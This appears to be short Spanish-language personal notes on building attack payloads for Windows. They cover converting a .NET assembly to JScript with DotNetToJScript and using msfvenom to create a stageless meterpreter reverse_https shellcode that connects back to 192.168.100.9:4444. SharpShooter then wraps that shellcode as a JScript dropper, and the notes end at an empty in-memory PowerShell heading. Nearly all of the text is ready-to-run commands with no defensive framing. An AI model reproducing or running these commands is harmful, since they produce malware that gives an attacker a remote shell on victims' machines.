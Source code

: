 ### C# a JScript
[https://github.com/tyranid/DotNetToJScript](https://github.com/tyranid/DotNetToJScript)

#### Proceso de ejecucion
ruta -> C:\<path>\DotNetToJScript\DotNetToJScript\bin\Release\  
DotNetToJScript.exe NDesk.Options.dll

ruta -> C:\<path>\DotNetToJScript\ExampleAssembly\bin\Release\  
 ExampleAssembly.dll
 
#### Compilacion
```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o dmo.js
```

----

### SharpShooter
Uso de virtualEnv para la ejecucion
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=4444 -f raw -o shell.txt
```

```
python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test
```

### PowerShell en memoria



